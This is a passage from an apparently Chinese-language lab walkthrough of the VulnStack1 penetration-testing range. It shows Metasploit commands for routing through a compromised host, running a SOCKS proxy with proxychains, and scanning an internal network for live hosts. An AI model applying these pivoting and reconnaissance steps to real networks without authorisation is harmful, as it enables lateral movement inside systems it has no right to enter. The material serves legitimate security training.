查看路由
```shell
run autoroute -p
```
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_19.png)

退到上层，添加 socks 代理，端口与 proxychains 里设置一致即可
```shell
background
use auxiliary/server/socks_proxy
```

看一下所需参数情况

```shell
show options
```

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_20.png)

设置参数
```shell
set username admin
set password admin
show options
run
```

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_21.png)


然后执行
```shell
run
```
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_22.png)

这里我打开一个新的终端，安装 proxychains
```shell
sudo apt-get install proxychains
```

然后修改 proxychains 的配置文件 /etc/proxychains.conf
```shell
sudo vim /etc/proxychains.conf
```

修改 ```[ProxyList]```，其中的端口要与 msf 中的模块的端口设置相同

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_23.png)

### 内网信息收集

使用 msf 内置模块进行存活主机探测（时间非常长）
```shell
auxiliary/scanner/discovery/udp_sweep    #基于udp协议发现内网存活主机
auxiliary/scanner/discovery/udp_probe    #基于udp协议发现内网存活主机
auxiliary/scanner/netbios/nbname         #基于netbios协议发现内网存活主机
```
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_26.png)
